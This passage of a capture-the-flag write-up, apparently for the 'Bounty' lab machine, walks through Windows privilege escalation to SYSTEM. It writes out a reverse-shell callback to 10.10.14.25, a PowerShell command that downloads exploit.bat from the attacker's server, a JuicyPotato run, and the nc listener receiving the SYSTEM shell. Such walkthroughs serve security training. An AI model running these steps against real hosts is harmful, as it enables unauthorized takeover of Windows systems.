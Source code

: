 Copy the `revShell.ps1` to `revShell-juicy.ps1` and change the bottem commad as follow:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.25 -Port 6666
```

Tranfer the `exploit.bat` binary to the Bounty box.

```console
PS C:\users\merlin\Desktop> powershell.exe -c IEX(new-object net.webclient).downloadfile('http://10.10.14.25/exploit.bat', 'C:\Users\merlin\Desktop\exploit.bat')

PS C:\users\merlin\Desktop> dir


    Directory: C:\users\merlin\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        11/16/2020   6:20 AM         99 exploit.bat                       
-a---        11/16/2020   6:01 AM     347648 juicy.exe
```

Finally, run the following command to gain the SYSTEM shell.

```console
PS C:\users\merlin\desktop> ./juicy.exe -t * -p exploit.bat -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

Once it ran successfully, we will see that the `revShell-juicy.ps1` will be called from our web server. 

```console
$ python3 -m http.server 80
10.10.10.93 - - [15/Nov/2020 23:29:57] "GET /revShell-juicy.ps1 HTTP/1.1" 200 -
```

<b>root.txt</b>

And in our `nc` listner, SYSTEM shell will appear, and we can read the `root.txt` flag :)

```console
$ nc -lvnp 6666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::6666
Ncat: Listening on 0.0.0.0:6666
Ncat: Connection from 10.10.10.93.
Ncat: Connection from 10.10.10.93:49198.
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32> cd c:\users\administrator\desktop
PS C:\users\administrator\desktop> dir


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---         5/31/2018  12:18 AM         32 root.txt                          
```